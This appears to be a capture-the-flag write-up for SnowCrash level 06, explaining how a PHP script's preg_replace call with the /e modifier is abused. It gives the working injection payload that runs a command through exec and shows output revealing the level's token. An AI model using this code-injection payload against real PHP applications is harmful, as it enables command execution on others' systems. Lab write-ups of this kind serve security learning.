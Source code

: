 # SnowCrash Level 06

## Introduction
Welcome to SnowCrash Level 06! In this level, we encountered a PHP script and a file that executes the script with a file as an argument.

## Initial Exploration
Upon listing the files, we found a PHP script and a file that executes the script with a file as an argument. We created a file in the `/var/tmp` directory and executed the script successfully. It printed the contents of our text file in `/var/tmp/`.

## Exploitation Attempts
Our goal was to find a way to execute "getflag". Initially, we attempted to break the print function in the script without success. Then, we noticed this line in the script:
```php
$a = preg_replace("/([x (.*)])/e", "y(\"\\2\")", $a);
```
The /e flag executes a command, so we needed to execute our command accordingly.
## Exploiting with preg_replace

We tried various approaches such as [e getflag], "[e getflag]", and [e exec(getflag)], but they didn't work. After some research, we discovered that the $ symbol could help us exploit the script. By understanding how PHP processes commands and strings, we found the correct syntax:
```
'[x {${exec(getflag)}}]'
```
We placed this syntax in a file named /var/tmp/test02 and executed the script with our file as a parameter.

## Results
```
level06@SnowCrash:~$ ./level06 /var/tmp/test02 
PHP Notice: Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1 
PHP Notice: Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```
